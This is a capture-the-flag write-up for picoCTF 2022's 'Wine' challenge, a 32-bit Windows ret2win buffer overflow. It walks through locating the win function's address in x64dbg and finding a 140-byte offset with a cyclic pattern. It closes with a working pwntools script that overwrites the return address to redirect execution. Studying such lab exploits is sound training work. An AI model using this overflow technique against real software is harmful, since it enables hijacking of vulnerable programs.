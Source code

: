 # Wine - Pwn - 300 points

Wine was a windows ret2win buffer overflow challenge, with the source code available to us. 

From looking at the source code, we know the buffer size and we can see that the function that we are interested in has some strings which are printed if certain conditions are met (no flag.txt in current directory):

	void win(){
	  char buf[FLAGSIZE];
	  FILE *f = fopen("flag.txt","r");
	  if (f == NULL) {
	    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if running on picoCTF servers.\n");
	    exit(0);
	  }
	  fgets(buf,FLAGSIZE,f); // size bound read
	  puts(buf);
	  fflush(stdout);
	}


So our goal is to find the address of this function and redirect the flow of the program to it.

In cases of ELF binaries finding addresses that we need is usually fairly straightforward - throw the binary in GDB, disassemble, calculate the offsets and so on - however with exe's we don't have the same luxury. There are a number of debuggers available for windows, but personally I find that none of them are quite as intuative and easy to use as GDB.

For the purposes of debugging this exe binary, I used [x64dbg](https://x64dbg.com/) inside a Windows VM, and used it to find the address of the win function. 

An interesting point to note here is the the vuln function was clearly defined in the symbols, meaning we could easily search for it specifically, but the win function's symbols weren't there - meaning we had to manually look for those previously mentioned strings. They weren't hard to find - we could use x64dbg's search feature to search for specific strings - and we can see the function address (00401530) just above the "flag.txt" string below:

![win](/home/yan/Documents/ctf/picoCTF_2022/Wine/screenshots/flag_func.png)

A quick check of the architecture using Ghidra tells us that this is a 32 bit exe binary, which means that we need to pass the address into this binary in little-endian format.

To find the offset, we need to generate a cyclic pattern, pass it into the program once it prompts us for input, and find the offset value in ESP (stack pointer) at the point of crash.

To do this I used pwntools' cyclic command line tool to generate a 200 character pattern and passed it into the program. Inpecting the registers in x64dbg shows us the values from our pattern  that made it into the ESP:

![esp](/home/yan/Documents/ctf/picoCTF_2022/Wine/screenshots/offset.png)


So our final payload is 144 bytes - 4 bytes for the address we want to redirect to and 140 junk characters. Finally, we can put together a quick pwntools scripts and get the flag:

	from pwn import *

	# Pass in remote server details
	def start(argv=[], *a, **kw):
	    return remote(sys.argv[1], sys.argv[2], *a, **kw)

	# context.log_level = 'debug'

	# Start program
	io = start()

	io.recvline() # Give me a string!

	offset = 140
	address = b"\x30\x15\x40\x00"

	# Build payload (ret2win)
	payload = flat([
	    offset * b'A',  
	    address
	])

	# Send the payload
	io.sendline(payload)

	# Get our flag
	flag = io.recvline()

	p = log.progress('Flag: ')
	p.success(flag.decode('utf-8'))

